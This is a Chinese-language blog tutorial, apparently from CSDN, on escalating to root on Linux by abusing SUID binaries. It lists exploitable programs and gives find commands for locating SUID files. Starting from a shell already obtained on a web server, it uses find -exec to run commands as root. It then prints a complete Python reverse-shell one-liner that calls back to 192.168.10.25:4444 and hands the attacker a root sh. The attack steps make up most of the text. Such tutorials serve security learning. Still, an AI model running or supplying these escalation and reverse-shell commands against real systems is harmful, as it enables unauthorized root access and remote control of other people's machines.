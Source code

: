 关于SUID详细：[Linux下的用户、组和权限](https://blog.csdn.net/qq_36119192/article/details/82228791#Umask%E3%80%81Suid%E3%80%81Sgid%E3%80%81%E7%B2%98%E6%BB%9E%E4%BD%8D)

SUID可以让调用者以文件拥有者的身份运行该文件，所以我们利用SUID[提权](https://so.csdn.net/so/search?q=%E6%8F%90%E6%9D%83&spm=1001.2101.3001.7020)的思路就是运行root用户所拥有的SUID的文件，那么我们运行该文件的时候就得获得root用户的身份了。

已知的可用来提权的linux可行性的文件列表如下：

*   nmap
*   vim
*   find
*   bash
*   more
*   less
*   nano
*   cp

以下命令可以发现系统上运行的所有SUID可执行文件。

```
#以下命令将尝试查找具有root权限的SUID的文件，不同系统适用于不同的命令，一个一个试      
find / -perm -u=s -type f 2>/dev/null      
find / -user root -perm -4000-print2>/dev/null      
find / -user root -perm -4000-exec ls -ldb {} \;
```


### 利用find文件提权

假如我们现在拿到了一个网站服务器的shell，但是权限是ubuntu，我们现在需要提权到 root 用户权限。

![](https://img-blog.csdnimg.cn/20181207144515533.png)

 我们查看具有root用户权限的SUID文件

```
find / -perm -u=s -type f 2>/dev/null
```


![](https://img-blog.csdnimg.cn/20181207144921887.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

我们随便找一个命令进行利用，我们就找find，先查看其信息，发现其确实是root用户权限的SUID的文件

![](https://img-blog.csdnimg.cn/20181207145134999.png)

我们先看一下是否能用find命令以root权限运行，发现确实可以以root权限运行

```
/usr/bin/find examples.desktop -exec whoami \;
```


![](https://img-blog.csdnimg.cn/20181207145711258.png)

然后我们查看目标网站上是否有python环境，可以看到有python2.7.6的环境

![](https://img-blog.csdnimg.cn/20181207145303369.png)

于是我们以root用户的身份利用python反弹shell，

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.10.25",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'  #反弹一个sh类型的shell
```


![](https://img-blog.csdnimg.cn/20181207151357201.png)

可以看到，在攻击端收到了反弹过来的shell，并且是root身份

![](https://img-blog.csdnimg.cn/20181207151426917.png)

文章知识点与官方知识档案匹配，可进一步学习相关知识

[CS入门技能树](https://edu.csdn.net/skill/gml/gml-1c31834f07b04bcc9c5dff5baaa6680c)[Linux入门](https://edu.csdn.net/skill/gml/gml-1c31834f07b04bcc9c5dff5baaa6680c)[初识Linux](https://edu.csdn.net/skill/gml/gml-1c31834f07b04bcc9c5dff5baaa6680c)10973 人正在系统学习中